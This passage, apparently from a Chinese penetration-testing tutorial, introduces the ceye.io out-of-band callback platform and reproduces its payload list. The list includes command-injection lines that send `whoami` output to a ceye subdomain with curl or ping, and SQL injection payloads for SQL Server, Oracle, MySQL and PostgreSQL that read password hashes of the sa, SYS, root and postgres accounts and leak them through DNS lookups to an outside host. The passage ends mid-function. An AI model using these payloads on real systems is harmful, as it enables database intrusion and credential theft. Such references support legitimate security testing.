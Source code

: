 * 2.利用ceye平台

http://ceye.io/payloads

![Snipaste_2018-10-21_18-30-14.png](https://whitecell.io/upload/attach/201810/151_Z9W3FSHSTHATU9X.png "Snipaste_2018-10-21_18-30-14.png")

类似的平台还有：https://exeye.io/request/web

![Snipaste_2018-10-21_18-30-34.png](https://whitecell.io/upload/attach/201810/151_PCPTRHTMBBKTTY5.png "Snipaste_2018-10-21_18-30-34.png")

平台的payload

```txt
0x00 Command Execution

i. *nix:

curl http://ip.port.b182oj.ceye.io/`whoami`
ping `whoami`.ip.port.b182oj.ceye.io

ii. windows

ping %USERNAME%.b182oj.ceye.io

0x01 SQL Injection

i. SQL Server

DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1
master.dbo.fn_varbintohexstr(password_hash)
FROM sys.sql_logins WHERE name='sa')
+'.ip.port.b182oj.ceye.io';
EXEC('master..xp_dirtree
"\\'+@host+'\foobar$"');

ii. Oracle

SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;

iii. MySQL

SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));

iv. PostgreSQL

DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
```